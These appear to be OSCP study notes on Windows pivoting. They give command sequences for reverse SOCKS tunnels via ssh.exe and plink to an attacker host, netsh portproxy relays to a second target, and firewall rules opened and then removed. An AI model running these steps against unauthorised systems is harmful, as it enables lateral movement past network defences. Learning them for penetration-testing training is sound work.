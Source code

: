 ```yaml
---
aliases:
  - Port Forwarding in Windows
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - linux
  - ssh
  - ssh_tunneling
  - port_redirection
  - port_forwarding
  - windows
author: Mehdi N Tehrani
creat_date: 2024-01-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# ssh.exe
#ssh_exe #ssh
The OpenSSH client has been bundled with Windows by default since version 1803 (April 2018 Update) and has been available as a Feature-on-Demand since 1709 (Windows 10 Fall Creators Update). 
Path to openssl ssh-related tools: #openssh
```cmd
%systemdrive%\Windows\System32\OpenSSH\ssh*
```

## Process
1. Start ssh service on attacker machine
```sh
sudo systemctl start ssh
```
2. **from target machine start a remote port redirection** and open a *SOCKS proxy port* on the attacker's machine:
```cmd
ssh -N -R <attacker_socksproxy_port> <user>@<attacker_ip>
```
3. confirm on attacker machine the port has opened:
```sh
$ ss -tunlp                         
Netid      State        Recv-Q       Send-Q     Local Address:Port   Peer 
tcp        LISTEN       0            128        127.0.0.1:9998       0.0.0.0:* 
```
4. make sure the SOCKS proxy port on attacker machine has been configured in `/etc/proxychains.conf`
```
socks5  127.0.0.1  9998
```
5. use `proxychains` command to interact with any network the closest target is connected to e.g. target2
```
proxychains nmap <target2_ip>
```



# plink
#plink #putty #cli
[plink download](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
[plink usage](https://tartarus.org/~simon/putty-snapshots/htmldoc/Chapter7.html)
putty's cli counterpart 

1. Start ssh service on attacker machine
```sh
sudo systemctl start ssh
```
2. **from target machine start a remote port redirection**:
```cmd
C:\Windows\Temp\plink.exe -ssh -l <attacker_user> -pw <password> -R 127.0.0.1:<attacker_socksproxy_port>:127.0.0.1:<target_lport> <attacker_ip>
```
3. confirm on attacker machine the port has opened:
```sh
$ ss -tunlp                         
Netid      State        Recv-Q       Send-Q     Local Address:Port   Peer 
tcp        LISTEN       0            128        127.0.0.1:<lport>    0.0.0.0:* 
```
4. use `127.0.0.1:<lport>` **to interact with the designated port on the closest target**



#iis #reverse_shell #revshell 
reverse shell user from iis:
```
iis apppool\defaultapppool
```

# netsh
#netsh #net_shell #ssh_tunneling 
SSH tunnel using Windows native tool `netsh`

1. Start ssh service on attacker machine
```sh
sudo systemctl start ssh
```
2. On target machine configure ssh tunnel using port proxy #port_proxy from target1 to target2
```cmd
netsh interface portproxy add v4tov4 listenport=<target1_lport> listenaddress=<target1_ip> connectport=<target2_port> connectaddress=<target2_ip>
```
3. Confirm port proxy has been configured
```sh
netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
----------- ----------     --------------- ----------
<target1>   <trgt1_lport>  <target2_ip>     <target2_port>
```
4. On target machine open a port on firewall #firewall 
```cmd
netsh advfirewall firewall add rule name="<rule_name>" protocol=TCP dir=in localip=<target_ip> localport=<target_lport> action=allow
```
or #powershell 
```powershell
New-NetFirewallRule -DisplayName "<rule_name>" -Direction Inbound -LocalPort <target_lport> -LocalAddress <target_ip> -Protocol TCP -Action Allow
```
5. Interact with `target2` from attacker machine via `<trgt1_lport>` on `target1`
```sh
ssh <target1> <trgt1_lport>
```

6. cleanup
#### Remove firewall rule
```cmd
netsh advfirewall firewall delete rule name="<rule_name>"
```
or #powershell
```powershell
Remove-NetFirewallRule -DisplayName '<rule_name>'
# or
Get-NetFirewallPortFilter | ? {$_.LocalPort -eq <trgt1_lport>} | Remove-NetFirewallRule
```
#### Remove portproxy rule
```cmd
netsh interface portproxy del v4tov4 listenport=<trgt1_lport> listenaddress=<trgt1_ip>
```
